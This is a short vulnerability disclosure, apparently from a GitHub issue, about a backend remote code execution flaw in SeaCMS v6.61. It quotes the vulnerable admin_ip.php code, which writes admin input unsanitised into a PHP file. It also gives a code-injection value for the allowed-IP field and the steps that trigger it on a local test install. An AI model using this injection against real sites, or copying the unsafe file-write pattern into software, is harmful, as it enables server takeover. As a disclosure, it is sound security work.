


###backend RCE in the latest version of SeaCMS(v6.61)
In login with admin and visit http://127.0.0.1/seacms/adm1n/admin_ip.php to set the allowed ip as 
```
";phpinfo();"

```
Then click the confirm button.



Since the write content is spliced directly based on the input in the file admin_ip.php, the malicious code we construct will be written to the file data/admin/ip.php.
```
if($action=="set")
{
	$v= $_POST['v'];
	$ip = $_POST['ip'];
	$open=fopen("../data/admin/ip.php","w" );
	$str='<?php ';
	$str.='$v = "';
	$str.="$v";
	$str.='"; ';
	$str.='$ip = "';
	$str.="$ip";
	$str.='"; ';
	$str.=" ?>";
	fwrite($open,$str);
	fclose($open);
}

```

Refresh the page(http://127.0.0.1/seacms/adm1n/admin_ip.php)，or visit the page http://127.0.0.1/seacms/data/admin/ip.php,you will getshell.

